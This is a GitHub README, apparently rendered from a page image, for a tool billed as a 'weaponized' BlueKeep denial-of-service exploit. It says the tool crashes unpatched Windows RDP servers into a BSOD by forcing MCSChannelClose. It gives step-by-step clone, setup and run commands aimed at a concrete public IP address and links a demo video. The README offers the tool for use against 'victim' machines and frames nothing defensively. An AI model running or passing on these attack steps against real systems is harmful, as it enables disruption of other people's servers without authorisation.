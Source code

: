 # BLUEKEEP_WEAPONIZED_DOS

<p><b>
  This is a weaponized Bluekeep module, that will cause an unpatched server , to crash or worse , Cause a BSOD. 
  his module works by sending crafted data required to trigger the call to MCSChannelClose.
  This causes prematurely closing an internal channel, which results in a BSOD on the victim machine.
  
</p></b>

<p><b>
Installation instructions : 
  
  <p><b>git clone https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS.git</p></b>
  <p><b>cd BLUEKEEP_WEAPONIZED_DOS/</p></b>
  <p><b>chmod +x setup.sh</p></b>
  <p><b>./setup.sh    # to clone the impackets module </p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 64</p></b>
  <p><b>or</p></b>
  <p><b>python exploit_bsod_bluekeep.py 82.208.39.117 32 </p></b>
  <p><b>depending on the victim machine architecture </p></b>
  
  
</p></b>

<p><b>#Author :#Captain_Nemo </p></b>

<p>
  <a href= "https://youtu.be/oUKoKYMpXRE" rel="nofollow">
      <img src="https://github.com/1captainnemo1/BLUEKEEP_WEAPONIZED_DOS/blob/master/bluekeepweapon.jpg?raw=true"  alt="to_video" style="max-width:100%;">
  </a>
</p>
